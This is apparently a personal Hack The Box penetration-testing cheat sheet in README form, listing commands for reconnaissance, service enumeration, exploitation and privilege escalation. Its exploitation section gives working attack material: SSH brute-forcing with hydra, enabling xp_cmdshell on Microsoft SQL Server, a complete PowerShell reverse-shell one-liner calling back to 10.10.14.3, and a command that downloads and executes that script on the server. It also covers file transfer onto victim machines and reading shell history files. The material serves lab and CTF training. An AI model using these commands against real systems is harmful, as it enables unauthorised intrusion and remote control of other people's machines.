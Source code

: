 # HTB_cheatsheet

## Recon

### nmap

Scan for open ports: `nmap <IP> -p- -T4` <br />
Scan for services and their versions: `nmap <IP> -p<PORT>,<PORT2>,<...> -T4 -A` <br />

### website technologies
TODO
builtwith.com, wappalyzer (browser addon), whatweb, burpsuite

### email-gathering
TODO
Hunter.io, TheHarvester, breach-parse
  
## Enumeration

## FTP (21)
try to connect to ftp-server: `ftp <IP>`, Username: `anonymous`, Password: `<ENTER>` or `Anonymous` <br />
try to find anything interesting, remember to check for hidden directories as well: `ls -la`

### SSH (22)
try to connect to ssh: `ssh 192.168.57.134`. In case of `no matching key exchange method found. Their offer...` use something in lines of `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1` or `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1 -c aes128-cbc`<br />
see if a banner is returned (for version detection) and if a password is required <br />

### SMB (139/445)

try to list available shares on smb: `smbclient -L -N \\\\<IP>\\` <br />
connect to smb-share: `smbclient \\\\<IP>\\<SHARE>` <br />
download file from share: `get \<FILE>` <br />

try to find out version of smb-service: use metasploit module ...smb_version TODO <br />

### HTTP/HTTPS (80/443)

visit webpage in browser

try to enumerate directories via gobuster or dirbuster e.g. `gobuster dir -u https://<IP> -w /usr/share/wordlists/dirbuster/common -k` <br />
typical file extensions are: for Apache .php; for Microsoft asp, aspx; for Others .php, .txt, .rar, .pdf, .docx, ... <br />
(optional) use nikto to find vulnerabilities `nikto -h http(s)://<IP>` <br />


### SQL (Windows)

try to connect via impacket's `mssqlclient.py <USER>@<IP> -windows-auth`<br />
check for admin priviledges to be able to have remote code execution ``SELECT IS_SRVROLEMEMBER (`sysadmin`) `` <br />



## Exploitation

### SSH (22)
try to bruteforce ssh login with hydra `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<IP>:<PORT> -t 4 -V` <br />
bruteforcing creates a lot of noise and will probably be discovered.
TODO: what is this? use auxiliary/scanner/ssh/ssh_login

### SMB (139/445)

Try to get a reverse shell for a given user and password via psexec (impacket):
`psexec.py '\<USER>:\<PW>@\<IP>'` <br />

Check for vulnerability in combination with FTP of ms17_010


### HTTP/HTTPS (80/443)
Burpsuite! <br />


### MicrosoftSQL (TODO)

if we have sysadmin privileges we can enable the xp_cmdshell to gain remote code execution on the host
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure
xp_cmdshell "whoami"
```
we then can download a malicious script from our HTTPServer. We can use a One-Liner reverse shell code and save it as a .ps1 file, e.g. with One-Liner content: `$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
from the sql server both download and run it directly via `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"` <br />
set up the listener beforehand as usual.

### Hosting a webserver to remotely download files onto the victim machine
- Use `sudo python -m SimpleHTTPServer <PORT>` to run a HTTP-Server inside the current directory <br />
- Use `sudo systemctl start apache2` to run a HTTP-Server on /var/www <br />

Download files on linux via `wget http://<IP>/<File>` or curl TODO <br />
Download files on windows via powershell and `certutil -urlcache -f http://<IP>/<FILE> <PATHONVICTIM>\<FILE>` <br />
Download files on windows via cmd TODO

### Creating malicious code with msfvenom
Show available payloads with `msfvenom -l payloads` <br />

## Privilege Escalation

The bible of privesc: `https://www.fuzzysecurity.com/tutorials/16.html`

### Windows
see what user we are: `whoami` <br />
check the CMD history: TODO <br />
check the PowerShell history: `history` or `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` <br />
try to find known vulnerabilities, e.g. via `https://github.com/rasta-mouse/Sherlock` 

### Linux
see what user we are: `whoami` <br />
check the bash history: `history` or `cat ~/.bash_history` <br />
check sudo privileges of user: `sudo -l` <br />
try to find vulerabilities in kernel, programs, etc., get kernel version with `uname -a` <br />
if we have no idea what to do: upload `LinEnum.sh` or `linuxprivchecker.py` on target machine (e.g. by via own webserver) and run them, or use `post/multi/recon/local_exploit_suggester` in msfconsole

## Cheatsheets

msfvenom: https://netsec.ws/?p=331
tty shell: https://netsec.ws/?p=337
Reverse-shell 1-liners: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet



